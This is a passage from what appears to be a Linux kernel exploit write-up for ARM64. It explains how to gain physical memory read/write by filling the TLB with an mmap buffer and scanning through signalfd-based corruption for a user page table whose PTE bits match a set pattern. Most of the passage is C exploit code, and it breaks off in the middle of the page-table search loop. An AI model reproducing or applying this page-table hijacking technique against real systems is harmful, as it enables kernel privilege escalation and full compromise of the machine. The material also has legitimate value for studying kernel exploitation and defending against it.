 ## Migrate to a vma

We will also help ourselves by mapping new table page which will also be valid to manage the TLB (`MAP_POPULATE` to force a page fault and assign the PTEs).

```C
/* buffer to manage tlb */
full_tlb = mmap((void *) NULL, TLB * 0x1000, PROT_READ|PROT_WRITE, MAP_POPULATE|MAP_SHARED|MAP_ANONYMOUS, -1, 0);
```

To get a phys r/w with full control of the PTEs, we can search for a page table from a user virtual memory area. So, we will make calls to signalfd looking for the page table. A user virtual memory area PTE has this type `0x00e80008e8a92f43`; starts with `e8` and ends with `f43`.

![upper_lower_bits_page_descriptor](/assets/images/upper_lower_bits_page_descriptor.png)
![AP_access](/assets/images/AP_access.jpg)

The code for searching the page table:

```C
uint64_t *dump = (uint64_t *) evil;

/* locate page table */
found = 0;
uint64_t pte = 0;
while (!found && (((leak | 0x40100) & 0xfffffff43) < end)) {

	/* replace tlb cache */
	replace_tlb();
	
	if ((dump[0] && ((dump[0] & ((uint64_t) 0xffff << (12 * 4))) == ((uint64_t) 0xe8 << (12 * 4)))
	&& ((dump[0] & 0xfff) == 0xf43)) 
	&& (dump[1] && ((dump[1] & ((uint64_t) 0xffff << (12 * 4))) == ((uint64_t) 0xe8 << (12 * 4)))
	&& ((dump[1] & 0xfff) == 0xf43))) {
		if ((dump[1] - dump[0]) == 0x1000) {
			pte = dump[0];
```